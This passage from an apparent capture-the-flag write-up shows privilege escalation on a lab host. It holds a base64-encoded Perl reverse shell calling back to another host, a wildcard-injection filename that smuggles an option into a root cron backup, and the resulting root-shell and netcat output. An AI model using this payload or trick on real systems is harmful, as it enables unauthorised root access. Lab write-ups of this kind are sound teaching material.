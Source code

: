 I’ll create my reverse shell script as `p.rdb`, and then create the file that will call that abusing the wildcard with `touch`:

```

$ echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/p.rdb

$ touch /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/-e\ sh\ p.rdb

```

When the cron runs, I’ll catch a callback as root on www when the backup script runs:

```

root@kali# nc -lnvp 9010
listening on [any] 9010 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51920
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
www

```

And I can grab `user.txt`:

```

# cat /home/somaro/user.txt
c09aca7c...

```

I can also verify the backup cron job that was running (though I now notice I could have read this even as www–data):

```

# pwd
/etc/cron.d

# ls -l
total 4
-rw-r--r-- 1 root root 38 May  4 20:55 backup

# cat backup
*/3 * * * * root sh /backup/backup.sh

```

## File Upload to www
